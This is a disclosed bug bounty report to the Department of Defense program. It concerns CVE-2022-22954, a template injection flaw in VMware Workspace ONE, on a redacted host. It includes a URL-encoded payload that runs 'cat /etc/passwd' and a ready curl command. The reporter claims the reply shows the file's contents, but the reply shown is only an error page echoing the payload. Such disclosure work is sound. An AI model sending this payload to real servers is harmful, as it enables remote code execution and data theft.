 # ███ vulnerable to CVE-2022-22954

## Report Details
- **Report ID**: 1537694
- **URL**: https://hackerone.com/reports/1537694
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-11T16:41:20.846Z
- **Disclosed**: 2022-04-20T20:16:38.840Z

## Reporter
- **Username**: v1ct0rv0nd00m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
I found that one of the targets belongs to DOD vulnerable to CVE-2022-22954 where an attacker may be able to execute any malicious code like escalating Remote code execution is also possible 

**Technical Summary:**

CVE-2022-22954 is a server-side template injection vulnerability in the VMware Workspace ONE Access and Identity Manager. This vulnerability was assigned a CVSSv3 score of 9.8. An unauthenticated attacker with network access could exploit this vulnerability by sending a specially crafted request to a vulnerable VMware Workspace ONE or Identity Manager. Successful exploitation could result in remote code execution by exploiting a server-side template injection flaw.

**Vulnerable URL:**

███=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d

## Impact

The impact of server-side template injection vulnerabilities is generally critical, resulting in remote code execution by taking full control of the back-end server. Even without the code execution, the attacker may be able to read sensitive data on the server

## System Host(s)
██████, ████

## Affected Product(s) and Version(s)
VMware workspace one

## CVE Numbers
CVE-2022-22954

## Steps to Reproduce
* Run the following curl command 

**Command Used:**

curl -sk -X GET -H "Host: ██████" "█████████=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d"

**Response:**

```
<!DOCTYPE HTML>
<html xmlns="http://www.w3.org/1999/html">
    <head>
        <title>Error Page</title>
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <link rel="stylesheet" type="text/css" href="/catalog-portal/css/errorpage.css">
    </head>

    <body>
        <div class="error-container">
            <div class="error-img-container">
                <img src="/catalog-portal/app/graphics/warning.svg" class="warning-icon">
            </div>
            <div class="error-text-heading">Request Failed</div>
            <div class="error-text-container">
                <p>Please contact your IT Administrator.</p>
                <a href="/catalog-portal/ui/logout?error=&deviceUdid=$%7B%22freemarker.template.utility.Execute%22?new()(%22cat%20/etc/passwd%22)%7D">Sign Out</a>
            </div>
        </div>
    </body>
    <script>
        if(console && console.log) {
            console.log("auth.context.invalid");
            console.log("Authorization context is not valid. Login request  received with tenant code: uhhz-lbr-004v, device id: █████;
        }
    </script>
</html>
```

* As you can see the above response, which contains the response of /etc/passwd in the response

## Suggested Mitigation/Remediation Actions
Upgrade the instances to the latest version



## Attachments
No attachments
